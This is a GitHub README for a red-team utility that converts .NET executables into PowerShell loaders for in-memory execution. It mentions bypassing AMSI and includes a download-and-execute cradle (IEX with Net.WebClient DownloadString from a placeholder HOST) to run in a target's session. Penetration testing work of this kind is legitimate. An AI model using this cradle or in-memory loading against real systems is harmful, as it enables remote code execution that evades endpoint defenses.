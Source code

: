 # exetops1 #

Use this tool to convert .NET executables into runnable PowerShell scripts.

## When would I use this? ##

When conducting internal penetration tests or red-team exercises, it’s often most convenient to load your favourite .NET tools directly into memory via PowerShell especially once you’ve bypassed AMSI. This utility lets you generate a self-contained .ps1 loader for any .NET executable.

Simply:
1. Upload the generated script to your web host.
2. In your target’s PowerShell session, run:
   
``` powershell
IEX (New-Object Net.WebClient).DownloadString('https://HOST/script.ps1')
Invoke-Filename // the function name can be found within the powershell script
```

## Supported Platforms ##

Windows, Linux, MacOS

## Installation ##

### Via Docker ###

``` bash
git clone https://github.com/ribthegreat99OrN0P/exetops1.git
cd exetops1
docker build -t exetops1 .
```

### Via Source ###

Just download the repo, open with VS22 or Rider and build.
